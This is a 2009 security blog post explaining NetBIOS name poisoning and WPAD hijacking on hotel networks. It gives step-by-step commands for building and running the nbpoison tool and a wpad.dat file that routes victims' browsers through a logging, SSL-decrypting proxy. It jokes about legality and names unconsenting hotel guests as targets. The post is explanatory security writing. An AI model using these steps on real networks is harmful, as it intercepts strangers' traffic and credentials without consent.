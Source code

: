 ```yaml
---
id: 361
title: 'Pwning hotel guests'
date: '2009-11-23T12:26:23-05:00'
author: 'Ron Bowes'
layout: revision
guid: 'http://www.skullsecurity.org/blog/?p=361'
permalink: '/?p=361'
---
```


Greetings everybody!

I spent a good part of the past month traveling, which meant staying in several hotels, both planned and unplanned. There's nothing like having a canceled flight and spending a boring night in San Francisco! But hey, why be bored when you have a packet sniffer installed? :)

Disclaimer: running a sniffer on somebody else's network may or may not be illegal; the only advice I can give is the guy down at Kinko's said it's okay.

Now, before I get to the fun, we need to step back and talk about NetBIOS name resolution a bit. My [very first post](http://www.skullsecurity.org/blog/?p=6) on this blog was actually about NetBIOS and my NBTool suite, and you may want to review it because this'll be a quick crash course.

## NetBIOS review

When Windows attempts to resolve domain names, it uses to DNS first. Assuming nobody has [hijacked their DHCP request](http://www.windowsecurity.com/articles/DHCP-Security-Part1.html) and fed them bad DNS servers, and nobody is performing [ARP spoofing](http://www.hackinthebox.org/modules.php?op=modload&name=News&file=article&sid=12868&mode=thread&order=0&thold=0) to redirect traffic, it'll go out to their DNS server. The DNS server, assuming it hasn't been [poisoned](http://en.wikipedia.org/wiki/DNS_cache_poisoning) or [hijacked](http://en.wikipedia.org/wiki/DNS_hijacking), will respond with the proper IP address. (It's a miracle anybody gets work done on the Internet, isn't it?)

If DNS fails, Windows tries [NetBIOS name resolution](http://en.wikipedia.org/wiki/NetBIOS#Name_service). It's this resolution that lets you type "ping FREDSBOX" and, if FREDSBOX is alive, it'll resolve. While useful on a trusted network (haha, trusted network...), this resolution really just amounts to a broadcast saying "Who has XXX?" The thoughtful servers on the network, unless they're legitimately named "XXX", look down and shuffle their feet, and the server named "XXX" will say "hey, that's me!" But what's stopping an attacker from also claiming to be "XXX"?

Nothing.

That's why, in a fateful moment of usefulness, I wrote [NBTool](http://www.skullsecurity.org/wiki/index.php/Nbtool).

## NBTool?

One of the tools included with NBTool, called nbpoison, will intercept requests and respond with a requested address. With the -c (or conflict) flag, it'll even inform other servers that they don't own a name. That might cause services to break, though, and some versions of Windows will pop up a warning when a conflict occurs. But such is life.

When you supply -c, you end up with traffic that looks like:

- FREDSBOX: (having just booted) Hey guys, just FYI, I'm FREDSBOX
- Attacker: No, sir, you are not; I am FREDSBOX
- FREDSBOX: k, sorry (from then on, FREDSBOX won't respond to his own name)

So anyway, I wrote that awhile ago, and had some fun showing off to our co-op students ("look! going to 'www.yahoo.colm' takes you to Google! Isn't that funny?" (their answer was inevitably "no")), but then I shelved it to work on [things people actually care about](http://nmap.org).

What I hadn't realized was, there are more fun things you can do! Let's have a look.

## Where'd that WPAD server go...?

One of the first things I noticed after running a packet capture in a hotel was this:  
![](/blogdata/WPAD.png)

I saw some workstations desperately trying to find a server called WPAD, and I couldn't get over how familiar WPAD looked. Word Press \[something\]? \[something\] Active Directory? Is it a blog thing? Bah!

So, I looked it up on the [Old Farmers Wikipedia](http://futurama.wikia.com/wiki/Old_Farmers_Wikipedia), and found it: Web Proxy Auto Discovery. Of course! This must be somebody's browser trying to find a proxy server. Wait... somebody's browser is broadcasting a request for a proxy server? And it's willing to trust people to tell it which proxy to use? Awesome!

Now, this is where I stopped. Despite what the guy at Kinko's said, I'm not comfortable with actually redirecting people's traffic. That wouldn't be nice at all, and I'm reasonably sure it steps over that legal line. But, here's what one *could* do...

### Step 1: Set up a logging proxy

[Burp Suite](http://portswigger.net/suite/) and [Paros](http://www.parosproxy.org/), among others, would work great. It's especially fun because they'll decrypt SSL for you, and even let you modify requests/responses!

### Step 2: Set up a Web server

Set up a Web server (or a [netcat](http://netcat.sourceforge.net/) listener) that'll serve up a /wpad.dat file pointing to your logging proxy. I'm no expert on writing WPAD files, but I [found this one online](http://www.craigjconsulting.com/proxypac.html):

```
function FindProxyForURL(url, host)
{
  return "PROXY 192.168.100.123:8080";
}
```

### Step 3: Start poisoning requests

```
$ wget http://www.skullsecurity.org/downloads/nbtool-0.02.tar.gz
$ tar -xvvzf nbtool-0.02.tar.gz
$ cd nbtool-0.02
$ make
$ sudo ./nbpoison -s 192.168.100.123
```

(nbpoison has to run as root because it listens on UDP port 137)

As of the current version, there's no way to actually pick and choose domains; it's all or nothing. So, every NetBIOS request will evoke a response. That can be fun, of course, but at some point I'll add a domain name argument.

### Step 4: Watch the traffic

If all goes according to plan, anybody set to use auto-configured proxies will start using your proxy, and you can see what they're up to. And great times will be had by all!

## Other attacks

Hijacking the WPAD file is cool, but what else can you do?

Well, it turns out that any internal server that the computers are configured to use will send out NetBIOS requests, because, for obvious reasons, their internal servers aren't listed in DNS. That can include, but isn't limited to:

- Exchange (or other email) server
- File shares
- Instant messenger servers
- Proxy server
- Browser's homepage
- Time reporting
- Issue tracking
- Internal news feeds
- Development server
- etc.

If you start hijacking names and hosting Web servers, SMB servers, etc, you may start seeing interesting requests. You'll want to run Wireshark, as well, to see what else is trying to connect to you. It'll be a party!

## So, what's the big deal?

Yes, this is the key. What IS the big deal? So you can redirect somebody who's on the same subnet as you. Why not use ARP spoofing? DHCP poisoning? Other subnet-based attacks?

And that'd be a great question. This is yet another member of a long line of evil things you can do on a subnet. Not to mention scores of attacks against unsecured wireless, which hotels seem to like!

The biggest advantage I see is that this attack is fairly quiet, keeping a very low profile. Somebody who isn't performing NetBIOS resolutions won't even know that somebody's out there, and somebody who is will probably get expected error pages when they DO attempt a request. Additionally, when it comes right down to it, there's a much smaller chance of screwing things up with NetBIOS poisoning than other LAN attacks.

Thanks for reading!